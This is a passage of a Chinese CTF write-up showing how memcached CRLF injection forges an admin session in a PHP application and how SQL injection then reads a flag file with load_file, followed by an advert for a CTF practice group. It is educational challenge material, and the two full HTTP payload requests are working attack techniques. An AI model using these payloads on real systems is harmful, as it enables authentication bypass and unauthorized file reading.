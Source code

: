 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/icibBdzwC6ics9L13oCuyd7ao0kYHTgmml39xOj4ianqT92avMh8z78Be9E4kTYVJrRDIJTqKjHTALY8NTOacoSRvQ/640?wx_fmt=png&from=appmsg "null")  
  
image.png  
  
这里有个坑点，就是memcached本身是没有数据类型的，只有key-value的概念，存放的都是字符串，但是PHP编程语言给它给予了数据类型的概念（当flags为0为字符串，当flags4为数组等等），我们看一下memcached的set命令格式：  
  
上图中的红色箭头所指向的4，就是下方的flags位置，也就是说，在PHP中，flags为4的缓存数据，被当做数组使用  
```
set key flags exptime bytes [noreply] 
value 
```  
  
所以我们在构造CRLF注入的命令时，需要注意在set时，把flags设置为4  
```
POST /public/index.php/index/admin/do_login.html HTTP/1.1
Host: eci-2ze7q6gtt4a3a07rywcf.cloudeci1.ichunqiu.com
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=korn6f9clt7oere36ke7pj7m70

username=admin%00%0D%0Aset%20think%3Ashop.admin%7Cadmin%204%20500%20101%0D%0Aa%3A3%3A%7Bs%3A2%3A%22id%22%3Bi%3A1%3Bs%3A8%3A%22username%22%3Bs%3A5%3A%22admin%22%3Bs%3A8%3A%22password%22%3Bs%3A32%3A%2221232f297a57a5a743894a0e4a801fc3%22%3B%7D&password=admin
```  
  
再用admin、admin去登录即可，登录到后台之后，再带上session去load_file读flag即可  
```
POST /public/index.php/index/admin/do_edit.html HTTP/1.1
Host: eci-2ze7q6gtt4a3a07rywcf.cloudeci1.ichunqiu.com
Content-Length: 183
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=korn6f9clt7oere36ke7pj7m70

data`%3Dunhex('')/**/,`name`%3Dload_file('/fffflllaaaagggg')/**/where/**/id%3D1/**/or/**/1%3D1#=1&id=1&name=a&price=100.00&on_sale_time=2023-05-05T02%3A20%3A54&image=1&data=%27%0D%0Aa
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icibBdzwC6ics9L13oCuyd7ao0kYHTgmml3sZ61wLiauaPbvUEj332Kojc1f2skSxnmu7fTNmVl5u7uhicd5QV7zib1g/640?wx_fmt=png&from=appmsg "null")  
  
image.png  
  
写的比较仓促，如有错误，欢迎指出。  
## “CTF复现计划”交流群  
1. 1. 语雀群文档：https://www.yuque.com/dat0u/ctf  
  
1. 2. 有需要复现的CTF赛题可以直接call群主（大头）  
  
1. 3. 本群提供赛题制作、赛题WriteUp编写等服务  
  
1. 4. 各位师傅可以随意拉人  
  
1. 5. 若群聊已超200人，无法通过二维码扫描加入，可以加vx：DatouYoo（备注CTF复现计划）  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/icibBdzwC6ics9L13oCuyd7ao0kYHTgmml32PM6XTWYgnmG2foh9iaAoiayGWlJh11ZdMVib70He1Lib1PdhpEaHHn16w/640?wx_fmt=jpeg&from=appmsg "null")  
  
image.png  
  
  
  

